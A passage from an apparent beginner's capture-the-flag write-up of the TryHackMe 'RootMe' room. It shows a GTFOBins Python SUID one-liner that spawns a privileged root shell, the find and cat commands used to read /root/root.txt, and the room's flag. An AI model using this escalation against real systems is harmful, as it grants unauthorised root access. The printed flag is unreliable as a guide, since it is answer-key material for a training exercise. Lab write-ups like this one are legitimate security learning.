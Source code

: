 I searched up ways to escalate privileges with python and found a website from [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid).

![RootMe](./img/rootme/gtfobins.png)

Since it already had SUID permissions, I could negate the first command.

```bash
$ /bin/bash
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.4$  python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
#
```

Essentially, this command first spawns a new bash shell. Then, it spawns a pseudo-terminal which allows me to stablise the shell, which allows me to use commands like `clear` and `Ctrl+C`, for simplicity.

Finally for the most important command, it, within the spawned Bash shell, uses Python to replace the current process with a new shell, which is `/bin/sh` with the `-p` flag, which makes it a privileged shell.

Seeing the `#` symbol in the terminal showed that I successfully gained root access!

## Getting the Flag (Again)

Now, let's get the `root.txt` flag. Once again, I had to locate the file.

```bash
# find / -name root.txt 2>/dev/null
```

The flag was in `/root/root.txt`.

```bash
# cat /root/root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

Wahoo! We got the flag :)

# Conclusion

This was an interesting and beginner-friendly room, with lots of learning points. I learnt about the various exploits that can be used for bypassing file upload restrictions, and exploiting SUID files. Pretty cool!

